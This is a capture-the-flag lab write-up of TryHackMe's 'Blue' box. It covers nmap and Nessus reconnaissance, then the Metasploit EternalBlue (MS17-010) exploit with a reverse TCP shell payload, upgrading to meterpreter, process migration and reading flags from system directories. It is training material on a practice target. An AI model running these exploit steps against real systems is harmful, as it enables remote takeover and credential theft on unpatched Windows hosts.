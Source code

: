 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundementals.
I will mainly be focusing on the flags.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus and Metasploit.

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag can be found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
  PORT      STATE SERVICE
  135/tcp   open  msrpc
  139/tcp   open  netbios-ssn
  445/tcp   open  microsoft-ds
  3389/tcp  open  ms-wbt-server
  49152/tcp open  unknown
  49153/tcp open  unknown
  49154/tcp open  unknown
  49158/tcp open  unknown
```
With this portscan I can see that there are a number of Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
#### Weaponization 
#### Delivery
#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and comands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
      set payload windows/x64/shell/reverse_tcp (This option was reccomended by the box's objective guide)
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.
#### Installation 
#### Command & Control
#### Actions on Objective
From here I verified the identity.
```
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was really interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had actually failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```
ps 
	migrate 692
```
After this was successful I got to work ont he flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Naviagted to C:\
	flag1.txt
		cat flag1.txt
		
Listing: C:\Windows\system32\config
	flag2.txt
		cat flag2.txt

Listing: C:\Users\jon\Documents
	flag3.txt
		cat flag3.txt
  ```
---
### After-action
#### What I've learned
#### What I would've done differently
